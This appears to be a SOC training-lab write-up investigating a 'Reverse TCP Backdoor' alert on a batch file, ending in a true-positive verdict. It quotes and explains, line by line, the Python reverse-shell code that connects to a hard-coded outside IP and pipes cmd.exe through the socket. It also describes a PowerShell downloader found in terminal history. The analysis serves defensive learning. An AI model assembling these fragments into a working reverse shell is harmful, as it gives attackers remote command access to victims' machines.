





# SOC131 – Reverse TCP Backdoor Detected

## 1. Alert Overview

| Field | Details |
|---|---|
| Event ID | 67 |
| Alert Rule | SOC131 – Reverse TCP Backdoor Detected |
| Event Time | `2021-03-01 15:15:20 (UTC+03:00)` |
| Alert Type | Malware |
| MITRE ATT&CK (alert metadata) | `T1204` |
| File Name | `msi.bat` |
| File Size | `2.12 KB` |
| MD5 | `3dc649bc1be6f4881d386e679b7b60c8` |
| Source Host | `MikeComputer` |
| Source IP | `172.16.17.14` |
| Device Action | **Cleaned** |
| Final Verdict | **True Positive** |

## 2. Investigation Findings

### 2.1. File Reputation

The file hash was checked using VirusTotal. The available file-reputation results are included below.



*VirusTotal file-reputation results for `msi.bat`.*

### 2.2. Extracted Strings Analysis

The extracted strings from Hybrid Analysis reveal that `msi.bat` launches Python 2.7 with an embedded, heavily obfuscated command.



*Extracted strings showing the Python command and reverse-shell implementation.*

The relevant code uses Python's `socket`, `subprocess`, and `threading` modules. Together, these components implement a reverse TCP shell: the program attempts to connect to a remote host, launches Windows Command Prompt, and forwards data between the network connection and the command interpreter.

#### 2.2.1. Python Execution

The extracted strings contain the following command pattern:

```text
C:\Python27\python.exe -c "<embedded Python code>"
```

- `C:\Python27\python.exe` invokes the Python 2.7 interpreter.
- `-c` tells Python to execute code supplied directly as a command-line string instead of loading a separate `.py` script.
- The embedded code uses obfuscated expressions and dynamically imported modules, making the underlying functionality harder to read.

The code references modules including `socket`, `subprocess`, and `threading`. Their combined use is significant because the script establishes a network connection, launches a command interpreter, and handles communication in separate threads.

#### 2.2.2. Creating the TCP Socket and Connecting to the Remote Host

The relevant code is:

```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('81.68.99.93', 443))
```

**First line:**

```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```

This creates a network socket.

- `socket.AF_INET` specifies IPv4 addressing.
- `socket.SOCK_STREAM` specifies a stream-oriented TCP socket.
- `s` stores the resulting socket object.

**Second line:**

```python
s.connect(('81.68.99.93', 443))
```

This attempts to establish a TCP connection to `81.68.99.93` on port `443`.

The remote IP address and port are embedded in the code. If the connection succeeds, the socket can be used to exchange data with the remote endpoint.

Port `443` is commonly associated with HTTPS, but this code uses a raw TCP socket. The shown code does not itself establish HTTPS or TLS encryption.

The call to `connect()` demonstrates the intended connection attempt; it does not prove that the remote host accepted the connection during the actual incident.

#### 2.2.3. Launching Windows Command Prompt

The script then launches a Windows command interpreter:

```python
p = subprocess.Popen(
    ['\\windows\\system32\\cmd.exe'],
    stdout=subprocess.PIPE,
    stderr=subprocess.STDOUT,
    stdin=subprocess.PIPE
)
```

The `subprocess.Popen()` function starts a new process and returns a process object, stored in `p`.

- `['\\windows\\system32\\cmd.exe']` specifies the Windows Command Prompt executable.
- `stdin=subprocess.PIPE` creates a pipe through which the script can send input to `cmd.exe`.
- `stdout=subprocess.PIPE` creates a pipe for reading the command interpreter's output.
- `stderr=subprocess.STDOUT` redirects standard error into the same output stream as standard output.

These settings allow the Python script to interact with the command interpreter programmatically. It can send input to `cmd.exe` and read the resulting output without relying on a user typing commands into a normal interactive console.

#### 2.2.4. Forwarding Data from the Socket to CMD

The extracted code includes the following operation:

```python
data = s.recv(1024)
p.stdin.write(data)
```

This is the **socket-to-process** direction.

**First line:**

```python
data = s.recv(1024)
```

The script reads up to 1,024 bytes from the TCP socket and stores the received data in `data`. If the remote endpoint sends command text through the connection, those bytes can be received here.

**Second line:**

```python
p.stdin.write(data)
```

The script writes the received data into the standard input pipe of `cmd.exe`.

This connects incoming network data to the command interpreter's input. It is the key mechanism that allows data received over the connection to be passed into `cmd.exe`.

#### 2.2.5. Forwarding CMD Output Back to the Socket

The opposite direction is represented by:

```python
s.send(p.stdout.read(1))
```

Breaking it down:

- `p.stdout.read(1)` reads one byte from the standard output of `cmd.exe`.
- `s.send(...)` sends that byte over the established TCP socket.

The purpose is to return output generated by the command interpreter to the remote endpoint.

The script reads a byte at a time in this operation, rather than collecting a large output buffer at once. The important finding is that the command output is being forwarded back through the network socket.

#### 2.2.6. Running Both Communication Directions in Separate Threads

The extracted strings show two threads being created and started:

```python
s2p_thread = threading.Thread(
    target=s2p,
    args=[s, p]
)

p2s_thread = threading.Thread(
    target=p2s,
    args=[s, p]
)

s2p_thread.start()
p2s_thread.start()
```

The helper functions implement the two data paths:

| Function / Thread | Direction | Purpose |
|---|---|---|
| `s2p` / `s2p_thread` | Socket → Process | Receives network data and writes it to `cmd.exe` input. |
| `p2s` / `p2s_thread` | Process → Socket | Reads `cmd.exe` output and sends it through the network socket. |

Calling `.start()` on each thread allows the two data-transfer routines to run concurrently.

This is important because the script needs to receive input from the remote endpoint while also forwarding output from the local command interpreter. Running the two directions in separate threads allows both sides of the communication to be handled independently.

#### 2.2.7. Why This Is a Reverse TCP Backdoor

The relevant components work together as follows:

1. The script creates a TCP socket and attempts to connect to `81.68.99.93:443`.
2. It launches `cmd.exe` and captures the process's input and output streams.
3. One thread forwards received network data into the command interpreter.
4. The other thread sends command output back over the socket.

This is characteristic of a **Reverse TCP Shell**. Rather than waiting for a remote system to initiate a new connection directly to the compromised machine, the script attempts to initiate an outbound TCP connection. If the connection succeeds and the remote endpoint communicates with it, the channel can provide remote command execution.

The extracted code therefore provides strong evidence that `msi.bat` is designed to function as a reverse TCP backdoor. However, the code establishes the intended behavior, not whether the connection actually succeeded during this incident.

### 2.3. Log Management Review

The available Log Management records fall outside the relevant time range for this alert.



*Historical log records that cannot establish network activity during the alert.*

These records do not establish whether `MikeComputer` communicated with `81.68.99.93` at the time of the alert. They are therefore not treated as evidence of successful C2 access during this incident.

## 3. Playbook Investigation

### 3.1. Define Threat Indicator

**Result: Unknown or unexpected outgoing internet traffic**

The file contains code designed to initiate an outbound TCP connection to a hard-coded remote endpoint and provide a remote command shell.

### 3.2. Check If the Malware Was Quarantined / Cleaned

**Result: Quarantined**

The playbook result is **Quarantined**, while the alert details report the device action as **Cleaned**.

### 3.3. Analyze Malware

**Result: Malicious**

The extracted strings reveal a Python reverse-shell implementation that connects to a remote IP address and forwards data between the network socket and `cmd.exe`.

### 3.4. Check If Someone Requested the C2

**Result: Not Accessed**

The playbook result is **Not Accessed**. The available Log Management records fall outside the relevant time range and do not establish a successful connection to the C2 during this incident.

## 4. Final Assessment

**Verdict: True Positive**

The alert correctly identified `msi.bat` as a malicious Reverse TCP Backdoor. The extracted strings show an outbound TCP connection attempt to `81.68.99.93:443`, execution of `cmd.exe`, and bidirectional data forwarding between the process and the socket.

The security product reported the file as **Cleaned**, and the playbook result was **Quarantined**. However, the available evidence does not establish successful C2 access during the alert.

## 5. Additional Investigation Note – PowerShell Downloader Hypothesis

The Endpoint Security Terminal History contains an obfuscated PowerShell `-EncodedCommand`.



*Terminal History showing the recorded PowerShell command.*



*Full encoded PowerShell command, provided separately because the Terminal History screenshot does not show the entire command.*

Static analysis of this command indicates that it uses `Net.WebClient` to attempt downloads from multiple URLs, saves a downloaded file to a dynamically constructed path under the temporary directory, checks the file size, and attempts to launch it.

This behavior is consistent with a **Downloader/Loader**, so the command could potentially represent an earlier stage in a multi-stage attack.

However, the available evidence does not prove that it downloaded `msi.bat` specifically. The downloaded file's identity has not been correlated with the MD5 of `msi.bat`, and the historical Log Management records do not establish a direct connection between the activities.

The relationship should therefore remain an **unconfirmed hypothesis**, rather than a confirmed part of the incident timeline.
